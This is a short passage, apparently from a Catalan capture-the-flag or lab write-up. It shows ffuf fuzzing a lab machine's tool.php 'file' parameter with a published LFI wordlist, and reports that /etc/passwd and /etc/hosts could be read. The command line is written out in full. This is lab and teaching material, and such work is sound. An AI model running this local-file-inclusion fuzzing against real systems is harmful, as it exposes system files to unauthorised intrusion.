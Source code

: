 ![ffuf-get](../../../assets/images/zerotrace/etcpasswd.png)

Utilitzem una [wordlist per a LFI](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/refs/heads/main/LFI-WordList-Linux) de DragonJAR i només podem obtenir els arxius `/etc/passwd` i `/etc/hosts`.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?file=FUZZ" -w ./LFI-WordList-Linux -fs 0
```
